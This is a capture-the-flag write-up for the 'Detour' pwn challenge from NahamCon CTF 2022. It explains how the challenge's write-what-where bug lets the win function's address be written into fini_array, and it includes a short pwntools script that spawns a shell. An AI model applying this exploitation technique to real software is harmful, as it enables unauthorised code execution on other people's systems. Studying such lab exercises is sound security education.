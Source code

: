 ```yaml
---
title: "[PWN] Detour [Nahamcon CTF 2022]"
date: 2022-05-06 23:35:00
---
```


# 0x0 Introduction

Author: @M_alpha#3534

write-what-where as a service! Now how do I detour away from the intended path of execution?

files: [detour](detour)

# 0x1 Mitigation

```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

# 0x2 Vuln

This binary give you a chance to write a value to an address. Since stack address is randomized, we can't overwrite rip.

According to this [post](https://stackoverflow.com/questions/26292964/when-will-the-fini-array-section-being-used), when program exit normally, it will call functions in `obj.__fini_array`.

for example, this this binary. the first address in `fini_array` point to `__do_global_dtors_aux`. This function will be called after function return from main.

So, we can write `sym.win` address to `fini_array`. Then, after function return from main, it will call `win` and give us the shell

```
[0x004010f0]> px/a @ obj.__do_global_dtors_aux_fini_array_entry
0x004031c8  0x004011a0 0x00000000 0x00000001 0x00000000  ..@.............
[0x004010f0]> afl~0x004011a0
0x004011a0    3 33   -> 32   sym.__do_global_dtors_aux
```

# 0x3 Exploit

```
exe = context.binary = ELF("detour")
fini_array = exe.symbols["__do_global_dtors_aux_fini_array_entry"]
base = exe.symbols["base"]

io = start()

io.sendlineafter(b"What: ",str(exe.sym["win"]).encode())
io.sendlineafter(b"Where: ",str(fini_array-base).encode())
io.interactive()
```

# 0x2 Flag

None
